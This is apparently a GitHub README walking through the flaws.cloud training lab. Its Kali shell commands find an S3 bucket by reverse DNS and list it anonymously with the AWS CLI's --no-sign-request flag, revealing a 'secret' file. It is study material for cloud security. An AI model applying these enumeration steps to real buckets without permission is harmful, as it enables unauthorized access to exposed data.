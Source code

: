 # Shape_AI Project

## Misconfigured s3 Bucket exposure

- **Bucket Name**:- s3-website-us-west-2.amazonaws.com
- **Bucket Source**:- http://flaws.cloud

<br>

> **Steps To reproduce:-**

* Go to [flaws.cloud](http://flaws.cloud)
* Enumerate the host IP
```
┌──(root💀kali)-[/home/kali/aws]
└─# host flaws.cloud                                                                      
flaws.cloud has address 52.218.169.210
```
* Enumerate the bucket name
```
┌──(root💀kali)-[/home/kali/aws]
└─# host 52.218.169.210
210.169.218.52.in-addr.arpa domain name pointer s3-website-us-west-2.amazonaws.com.
```
* Check for Authorization Parameter
```
┌──(root💀kali)-[/home/kali/aws]
└─# aws s3 --region us-west-2 ls flaws.cloud --no-sign-request
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2020-05-22 14:16:45       3162 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
```
* Read the Secret document

> **What Can I Do:-**

* List all files.
* Download any file to my local machine.

> **POC:-**

